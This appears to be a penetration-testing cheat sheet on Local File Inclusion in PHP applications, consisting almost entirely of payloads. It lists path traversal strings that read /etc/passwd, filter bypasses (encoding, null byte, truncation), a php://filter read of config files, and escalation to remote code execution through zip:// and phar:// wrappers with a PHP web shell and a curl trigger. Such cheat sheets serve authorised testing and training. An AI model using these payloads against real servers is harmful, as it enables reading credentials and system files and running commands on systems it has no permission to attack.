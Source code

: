 ```yaml
---
description: >-
  an attacker may manipulate these parameters to display the content of any
  local file on the hosting server, leading to a Local File Inclusion (LFI)
  vulnerability.
---
```


# LFI

#### Wordlists

* [https://github.com/emadshanab/LFI-Payload-List](https://github.com/emadshanab/LFI-Payload-List)
* [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

#### Basic payloads

```bash
# Basic LFI
/index.php?language=/etc/passwd

# Path traversal
/index.php?language=../../../../etc/passwd

# Name prefix
/index.php?language=/../../../etc/passwd

# Appproved Path
/index.php?language=./languages/../../../../etc/passwd
```

#### Bypasses

```bash
# Basic bypass
/index.php?language=....//....//....//....//etc/passwd

# URL encoded
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

# Appended extension
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]

# Null byte
/index.php?language=../../../../etc/passwd%00

# Read base64 with php filter
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

### PHP wrappers

{% hint style="info" %}
Its possible to use a .zip file and use the phar wrapper. Create a .php file with a payload and zip it. Then upload /?page=phar://uploads/payload.zip/payload\&cmd=id
{% endhint %}

<details>

<summary>zip://</summary>

Wen upload file is possible

```bash
# Create payload
echo "<?php system($_GET['cmd']); ?>" > payload.php
# Zip zip payload.zip payload.php
zip payload.zip payload.php

# Execute commands
/?page=zip://uploads/payload.zip/payload.php&cmd=id 
# Could be possible without extension
/?page=zip://uploads/payload.zip/payload&cmd=id 
```

</details>

<details>

<summary>phar://</summary>

Uploading files is needed

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile script into .phar file

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Trigger filie

```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

</details>

For more wrappers:

[https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)

